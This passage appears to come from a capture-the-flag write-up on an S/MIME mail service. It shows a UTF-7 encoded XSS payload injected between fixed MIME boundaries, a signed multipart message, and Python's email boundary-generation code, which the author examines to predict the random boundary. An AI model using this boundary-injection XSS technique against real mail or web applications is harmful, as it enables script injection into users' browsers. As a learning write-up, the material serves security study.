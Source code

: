 ```json

+ADw-img+ACA-src+AD0-+ACI-x+ACI-+ACA-onerror+AD0-alert(1)+ADs-+ACA-/+AD4-
--===============adminone==
</h1>
      <pre>dsad</pre>
  </div>
</body>
</html>
--===============adminone==--

--===============admin2==
Content-Type: application/pkcs7-signature; name="smime.p7s"
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="smime.p7s"
Content-Description: S/MIME Cryptographic Signature

MIIFLQYJKoZIhvcNAQcCoIIFHjCCBRoCAQExDzANBglghkgBZQMEAgEFADALBgkqhkiG9w0BBwGg
ggMlMIIDITCCAgmgAwIBAgIUHjR1RUpDc9PN3lIb5uOKlA9XHXMwDQYJKoZIhvcNAQELBQAwHjEc
MBoGA1UEAwwTc2VjdXJlLW1haWwtc2VydmljZTAeFw0yNTAzMjUwODU2NTFaFw0yNjAzMjUwODU2
NTFaMC4xEjAQBgNVBAMMCWFkbWluQHNlczEYMBYGCSqGSIb3DQEJARYJYWRtaW5Ac2VzMIIBIjAN
BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtUWmhBhA9+K8pt1LEQx7SD0U+lrEyJjf0WdLX2Ht
4x12eWUN1cAzx/CqH3AUp+cRfBG42CFKT+TTrjz9K8nffUqhhOQpIQ4QtwhwWtHwjaBhRDKwo8mW
znr4/cYGdxTyQ+n2eBzFhdBOe5LsO3GLMqYnNFrCPLUHL3DIssOuRiZIdTBkrqeG44SrqWOXna7Z
hGOCygabdTZL93ucA2tLbtgW8Zg2/QwwU7f0Xx7HqGKpl7+Prt27gM3bZBRPXT2NU96/eW32Pgq3
qo3rC5jUMo2X+yCDB1PaGvxmbK/HSqCxLORYiRbhPA9vIuX8kUWJf9dtThPrUhXk4T+r+HwxQQID
AQABo0cwRTAUBgNVHREEDTALgQlhZG1pbkBzZXMwDgYDVR0PAQH/BAQDAgWgMB0GA1UdJQQWMBQG
CCsGAQUFBwMCBggrBgEFBQcDBDANBgkqhkiG9w0BAQsFAAOCAQEAm8mM0x6Xgs8YchYjePkFSpJJ
hQzzbhnuCGrOqTJxJqnN9BtfE8aoNxXlnaLl4V3QJHDa1OFGJjErXzvtWa2zGkJZYFRR3Y766rFS
1PngziYCYCYGlpuqm20y0CYAPctZ13TDLd0ZLHuqXdq1/rXo0fqacovPfEzTxcGZdaRufDg/kn1y
zSdBbw8XRwomJgwa1H7P9skGmydU1ASMJVonZjw1MY5HQ9MuW6VtmHAMMmy6XzimO477NiigakTc
xh+Juc+zXIoPHuH5wGj8gs2fiM99/GSjvJ+PndbBHxP4YlPKLqhfazv/jfpAM27FaT0V5+cKoRWB
w84hrdqbfj4EhTGCAcwwggHIAgEBMDYwHjEcMBoGA1UEAwwTc2VjdXJlLW1haWwtc2VydmljZQIU
HjR1RUpDc9PN3lIb5uOKlA9XHXMwDQYJYIZIAWUDBAIBBQCgaTAYBgkqhkiG9w0BCQMxCwYJKoZI
hvcNAQcBMBwGCSqGSIb3DQEJBTEPFw0yNTAzMjUwOTI1MDRaMC8GCSqGSIb3DQEJBDEiBCCSFpTh
K2LQn+v3iRjE7B+4JZVXzLtG4cDt2+/FZtRZ/TANBgkqhkiG9w0BAQEFAASCAQAQMSR1+i6O29/7
jPnuMcvBnD3eEtQSwxKlHVT/2+DxISVxPF7+YDG4TEwZbzSx43BsoVvI/dkak8nuRCdZoErvDU5V
Fm50PYeXxAvU4SB4T/mxTyDgsPRe5uBzRKyS2b3Qk+93EFFNHi4PACCIphzL3Tzs2fujqZoiE/pY
HFrQKhLqxx7EhxacyBdY82fJ6+/wk8hADBJ8mH3JsLktZQ7BRgsH32le1nJGgk5yBa13Uc5I//UE
c/Oe3RqWxoJLzl7m4iL2EEs2Si1U0DqGgtr+MzoUMDA//v4p5W6RWBq5Qn3Lb3r21Zw3IRbcLVAw
gu9g3l14WKYRtrY2WZ1eiyXr

--===============admin2==--
```
- YOu can see there is a part added between 2 boundary .
![image](https://hackmd.io/_uploads/HkNiDgl6Jx.png)
- Test it in local ![image](https://hackmd.io/_uploads/SyDjDll61x.png)
![image](https://hackmd.io/_uploads/SJhjDexaJe.png)

- We now can confirm that really affects to the response .
## NOW WE CAN TRIGGER XSS , JUST ONE FINAL THINGS...
- So now we can trigger XSS with only FIXED BOUNDARY right ? 
- So lets audit the code to check if we can predict or crack the random shitty.
```python
 def _make_boundary(cls ,text=None):
        # Craft a random boundary.  If text is given, ensure that the chosen
        # boundary doesn't appear in the text.
        token = random.randrange(sys.maxsize)
        boundary = ('=' * 15) + (_fmt % token) + '=='
        if text is None:
            return boundary
        b = boundary
```